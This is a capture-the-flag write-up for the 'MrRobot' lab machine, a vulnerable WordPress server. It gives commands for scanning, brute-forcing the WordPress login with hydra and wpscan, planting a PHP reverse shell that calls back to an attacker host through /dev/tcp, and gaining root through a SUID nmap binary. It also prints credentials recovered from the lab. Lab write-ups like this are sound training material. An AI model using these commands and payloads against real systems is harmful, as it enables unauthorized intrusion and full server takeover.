 # 🧠 CTF Write-Up: MrRobot – HTB-Retired  
**Author**: HackMalayali  
**Date**: 06/12/2025  
**Difficulty**: [Easy]  
**Target IP**: 192.168.215.5



## 🎯 Overview

This machine simulates a real-world vulnerable web server running WordPress.  
The objective is to gain access to the system, escalate privileges, and capture all three flags (if applicable).


## 🔍 Phase 1: Reconnaissance

### 🔸 Nmap Scan
bash
nmap -sC -sV -oN nmap.txt 192.168.215.5


**Findings**:

 
* Port 80 (HTTP) – Apache + WordPress
* Port 443 (HTTPS)
* Port 22 (SSH) – OpenSSH (closed)




## 🌐 Phase 2: Enumeration

### 🔸 Gobuster/dirb

bash
gobuster dir -u http://192.168.215.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


**Interesting Paths**:

* `/robots.txt` → `fsocity.dic`, `key-1-of-3.txt`
* `/wp-login.php` (WordPress login)



## 🚪 Phase 3: Exploitation

### 🔸 Brute Force WordPress Login

Used `fsocity.dic` as username and password wordlist.

```
bash
hydra -l elliot -P fsocity.dic 192.168.215.5 http-post-form "wp-login.php:log=^USER^&pwd=^PASS^:The Password" -vV
wpscan --url http://192.168.215.5 --usernames admin --passwords fsocity.dic
```

**Creds Found**:

* `Elliot / ER28-0652`

---

### 🔸 Upload PHP Reverse Shell

* Gained access to Appearance > 404.php
* Injected reverse shell:

```php
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.215.4/4444 0>&1'"); ?>
```

* Setup listener:

```bash
rlwrap nc -lvnp 4444
```

## 🐚 Phase 4: Post-Exploitation

**Got Shell As**: `daemon`
**Upgraded Shell**:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 🔸 Collected Info:

```bash
whoami
id
uname -a
find / -perm -4000 -type f 2>/dev/null
```



## 👑 Phase 5: Privilege Escalation

### 🔸 SUID Binary Found: `/usr/local/bin/nmap`

**Exploitation**:

```bash
nmap --interactive
!sh
```

**Got Root Shell**:

```bash
whoami → root
```



## 🏁 Flags Captured

* ✅ `key-1-of-3.txt`
* ✅ `key-2-of-3.txt`
* ✅ `key-3-of-3.txt`



## 💡 Lessons Learned

* Always check `robots.txt` and WordPress login pages.
* Enumeration is everything
* SUID binaries can be deadly if misconfigured
* SUID misconfigurations are a common root escalation path.
* GTFOBins is your best friend for SUID abuse.
